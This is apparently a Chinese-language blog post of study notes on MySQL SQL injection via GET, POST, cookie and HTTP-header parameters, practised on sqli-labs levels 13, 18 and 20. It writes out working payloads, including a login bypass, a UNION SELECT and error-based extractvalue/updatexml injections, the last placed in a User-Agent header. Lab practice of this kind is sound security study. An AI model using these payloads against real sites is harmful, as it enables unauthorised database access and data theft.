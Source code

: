 # 05-mysql提交方式注入

  
# 常见提交方式下的注入漏洞

>前言：WEB应用在数据传递接受中，针对SQL注入安全漏洞，由于数据大小，格式等原因，脚本在接受传递时会有多种传递方式，传递方式的不同将影响到安全测试的不同！本课将针对此类问题进行逐一讲解。


  
## 第一点：数据常见提交方式

`https://www.cnblogs.com/weibanggang/p/9454581.html`





  
## 第二点：产生注入的接受方式

例子：GET
POST：
COOKIE ：
REQUEST ：     $_REQUEST()  何种方法都可以接参数
SERVER： http头部注入。$_SERVER           https://www.cnblogs.com/jianmingyuan/p/5900064.html
等





## 第三点：实战测试案例-sqlilabs关卡

#### post登陆框注入-sqlilabs less13

涉及知识点:   万能密码

Less-13 无回显
Less-11 有回显

```sql
-- 一般是没有括号的，先手工，再工具试试有没有其他符号干扰
-- 可以用hackbar等进行post参数注入

-- 方法1
')or 1=1 -- + 
-- 然后开始按照步骤开始利用 （盲猜  order by 3, 库名，表，列，数据）
admin') union select null,database()#
-- 这里面没回显数据的 地方，想办法让他报错/工具跑
-- sqlmap  post参数是  --data ""

-- 下面的没成功， 可以再试试
admin') union select count(*), concat(select database()) as admin from information_schema.tables group by admin\

-- 报错注入
admin') and extractvalue(1,concat(0x7e,(select database()),0x7e))#


+加号类似空格  


```

#### http头部注入-sqlilabs less18

$_SERVER()

比如站长之家获取我的浏览器的数据，其中http头部可以修改（你懂得）

```sql

```




#### cookie修改注入-sqlilabs less20

无回显  

```sql
-- 大概是这样
User-Agent: admin' or updatexml(1,concat(0x7e,database(),0x7e),0) or '


```

---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/05-mysql%E6%8F%90%E4%BA%A4%E6%96%B9%E5%BC%8F%E6%B3%A8%E5%85%A5/  

